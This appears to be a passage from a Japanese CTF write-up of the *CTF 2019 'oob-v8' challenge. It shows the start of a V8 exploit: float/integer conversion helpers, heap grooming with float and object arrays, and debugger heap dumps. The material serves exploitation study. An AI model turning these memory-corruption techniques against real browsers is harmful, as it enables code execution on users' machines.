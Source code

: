
## Code

- gist: [\*CTF 2019 - oob-v8](https://gist.github.com/Xornet-Euphoria/1fc48bcb96d5c2e5d8becca0f910a474)

```javascript
// utility functions

// convert float64 <-> uint64
let buf = new ArrayBuffer(8);
let float_buf = new Float64Array(buf);
let uint_buf = new BigUint64Array(buf);

function f2i(v) {
    float_buf[0] = v;
    return uint_buf[0];
}

function i2f(v) {
    uint_buf[0] = v;
    return float_buf[0];
}

// print utils
function hexPrint(v) {
    console.log("0x" + v.toString(16));
}

// --------------------------------------------------

let tmp_obj = {X:1};
let float_arr = [1.1];
// fxxk v8 heap
// if this code is replaced to `obj_arr = [{X:1}]`
// maybe {X:1} will be allocated before obj_arr
let obj_arr = [tmp_obj];  // fxxk v8 heap

/*
- from x64.debug (but debug build interpreter checks the boundaries)
d8> %DebugPrint(obj_arr)
DebugPrint: 0x101fed78e3a1: [JSArray]
 - map: 0x3cc433902f79 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x0d5329cd1111 <JSArray[0]>
 - elements: 0x101fed78e389 <FixedArray[1]> [PACKED_ELEMENTS]
 - length: 1
 - properties: 0x00e4ebf80c71 <FixedArray[0]> {
    #length: 0x0fbd8fe001a9 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x101fed78e389 <FixedArray[1]> {
           0: 0x101fed78e301 <Object map = 0x3cc43390ab39>
 }
 -------------------------------------------------
pwndbg> x/16gx 0x101fed78e3a1-1
0x101fed78e3a0: 0x00003cc433902f79      0x000000e4ebf80c71
0x101fed78e3b0: 0x0000101fed78e389      0x0000000100000000
0x101fed78e3c0: 0x000000e4ebf80941      0x0000000400000003
0x101fed78e3d0: 0xdeadbeed29386428      0x000000e4ebf80941
0x101fed78e3e0: 0x00000016e68fa846      0x7250677562654425
0x101fed78e3f0: 0x616f6c6628746e69      0xdead297272615f74
0x101fed78e400: 0x000000e4ebf802d1      0x0000000100000000
0x101fed78e410: 0x00000d5329cdff6b      0x000000e4ebf80851
pwndbg> x/16gx 0x101fed78e3a1-1-0x30
0x101fed78e370: 0x000000e4ebf80c71      0x0000101fed78e351
```

[^1]: gdbで`p/f 0x11c27c950589`を実行した
[^2]: 実際には浮動小数点数に変換して代入する